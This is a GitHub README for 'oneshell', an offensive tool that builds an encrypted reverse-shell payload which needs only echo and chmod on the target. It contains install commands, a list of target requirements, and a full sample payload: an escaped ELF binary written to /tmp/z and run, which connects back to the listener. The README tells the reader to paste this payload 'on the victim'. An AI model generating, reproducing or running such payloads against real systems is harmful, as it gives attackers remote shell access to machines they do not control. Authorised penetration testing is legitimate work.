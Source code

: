 # One Shell To Rule Them All

# Quick start

To host a listener on the `example.com` machine using TCP port 9001:

**Docker**

```bash
docker run --rm -it -p 9001:9001 tantosec/oneshell -t example.com -p 9001
```

**Local install**

```bash
go install github.com/tantosec/oneshell@latest
oneshell -t example.com -p 9001
```

# Why?

Let's say that you have achieved remote code execution on a target machine and are looking to escalate your privileges. You might think to establish a reverse shell to make this process easier.
However, being a security professional, you want your connection to be encrypted to prevent data being transferred insecurely.

It turns out that there are a few ways to do this, mostly involving the `openssl` or `ncat` tools. What if you don't have these tools on the target? One solution is to download them over the internet using `curl` or `wget`. But what if the target doesn't have these binaries either? The base `ubuntu` Docker image doesn't.

"One Shell To Rule Them All", or `oneshell` for short, is a tool that can solve this problem. It does this by running an encrypted reverse shell using only the `echo` and `chmod` commands.

To find out how it works, check out my blog on the topic [here](https://tantosec.com/blog/oneshell/).

# Detailed requirements for a successful payload

* Target can connect to your via TCP
* Shell execution on the target (for example `system` in PHP)
    * This will allow using the `echo` inbuilt shell command
* x86_64 CPU (Arm64 support coming soon)
* `chmod` binary located on path
* The ability to write to the following file paths: `/tmp/x`, `/tmp/y`, `/tmp/z`

These conditions cover almost all server setups.

# Basic Usage

If you want your payload to connect back to `localhost` on port `9001`, run the following command:

`oneshell -t localhost -p 9001`

You should receive output similar to the following:

```
Generating temporary MTLS certificates...
Payload connects to 127.0.0.1:9001
Copy the following command and run on victim:

zy(){ if [ `echo -e` ];then echo "$1";else echo -e "$1";fi;};zy '\0177ELF\02\01\01\0\0\0\0\0\0\0\0\0\02\0>\0\01\0\0\0x\0200\02\0\0\0\0\0@\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0@\0\070\0\01\0@\0\0\0\0\0\01\0\0\0\07\0\0\0\0\0\0\0\0\0\0\0\0\0200\02\0\0\0\0\0\0\0200\02\0\0\0\0\0l\01\0\0\0\0\0\0\0354i\013\0\0\0\0\0\0\0 \0\0\0\0\0\061\0300\0260)\0277\02\0\0\0\0276\01\0\0\0\061\0322\017\05I\0211\0307\0211\0307\0276d\0201\02\0\061\0322\0262\020\061\0300\0260*\017\05\0272\0210h\013\0\061\0300\017\05)\0302\01\0306\0203\0372\0w\0363\0277\021m\01\0H\0272d\0201\02\0\0\0\0\0H\0203\0377\0\017\0216\0205\0\0\0H\0213\02H\0213\034%>\0201\02\0H1\0330H\0211\04%>\0201\02\0H1\0300H1\0311\0276\0\0\0\0\0212\04%>\0201\02\0H\0201\0376\0\01\0\0s3@\0210\0361H\0203\0341\07\02\0201\066\0201\02\0H%\0377\0\0\0\0212\0200\0\0200\02\0H\0377\0301H\0203\0341\07\02\0201>\0201\02\0\0320\0300\0210\0201>\0201\02\0H\0377\0306\0353\0304H\0203\0302\010H\0377\0317\0353\0211k.Yc3\0255`OMw\0236K\0210\0256E\0323#\02\0271\0247l\0277\0372uH\0213\04%>\0201\02\0H\0213\034%F\0201\02\0H9\0330t\01\0314\02\0#)\0177\0\0\01'>/tmp/z;chmod +x /tmp/z;/tmp/z

2024/07/15 15:51:17 Listening for connections on 0.0.0.0:9001
```

Copy the part that says

```
zy(){ if [ `echo -e` ];then echo "$1";else echo -e "$1";fi;};zy '\0177ELF\02\01\01\0\0\0\0\0\0\0\0\0\02\0>\0\01\0\0\0x\0200\02\0\0\0\0\0@\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0@\0\070\0\01\0@\0\0\0\0\0\01\0\0\0\07\0\0\0\0\0\0\0\0\0\0\0\0\0200\02\0\0\0\0\0\0\0200\02\0\0\0\0\0l\01\0\0\0\0\0\0\0354i\013\0\0\0\0\0\0\0 \0\0\0\0\0\061\0300\0260)\0277\02\0\0\0\0276\01\0\0\0\061\0322\017\05I\0211\0307\0211\0307\0276d\0201\02\0\061\0322\0262\020\061\0300\0260*\017\05\0272\0210h\013\0\061\0300\017\05)\0302\01\0306\0203\0372\0w\0363\0277\021m\01\0H\0272d\0201\02\0\0\0\0\0H\0203\0377\0\017\0216\0205\0\0\0H\0213\02H\0213\034%>\0201\02\0H1\0330H\0211\04%>\0201\02\0H1\0300H1\0311\0276\0\0\0\0\0212\04%>\0201\02\0H\0201\0376\0\01\0\0s3@\0210\0361H\0203\0341\07\02\0201\066\0201\02\0H%\0377\0\0\0\0212\0200\0\0200\02\0H\0377\0301H\0203\0341\07\02\0201>\0201\02\0\0320\0300\0210\0201>\0201\02\0H\0377\0306\0353\0304H\0203\0302\010H\0377\0317\0353\0211k.Yc3\0255`OMw\0236K\0210\0256E\0323#\02\0271\0247l\0277\0372uH\0213\04%>\0201\02\0H\0213\034%F\0201\02\0H9\0330t\01\0314\02\0#)\0177\0\0\01'>/tmp/z;chmod +x /tmp/z;/tmp/z
```

and run it on the victim. You should receive an interactive shell connection on the server, which will be secured with mutual TLS.

# References

* Basis for Tiny ELF file from [https://nathanotterness.com/2021/10/tiny_elf_modernized.html](https://nathanotterness.com/2021/10/tiny_elf_modernized.html)
* AES implementation sourced from [https://github.com/mko-x/SharedAES-GCM/tree/master/Sources](https://nathanotterness.com/2021/10/tiny_elf_modernized.html)
